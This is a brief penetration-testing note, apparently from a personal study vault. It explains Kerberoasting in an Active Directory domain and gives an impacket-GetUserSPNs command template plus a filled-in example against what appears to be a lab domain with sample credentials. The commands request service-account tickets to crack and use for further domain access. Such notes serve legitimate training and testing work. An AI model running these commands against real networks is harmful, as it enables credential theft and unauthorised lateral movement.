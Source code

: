 -- -
Used for #kerberoasting. Use valid credentials to get service account tickets that we can then abuse to get further access into the domain. Need a valid domain #userpass that can authenticate to the domain. Not local admin. 
### Kerberoast
```bash
# can be GetUserSPNs.py, but for kali it's as below
impacket-GetUserSPNs <domain>/<username>:<password> -dc-ip <dc ip> -request
impacket-GetUserSPNs MARVEL.local/fcastle:Password1 -dc-ip 10.0.3.4 -request
```

^59b305
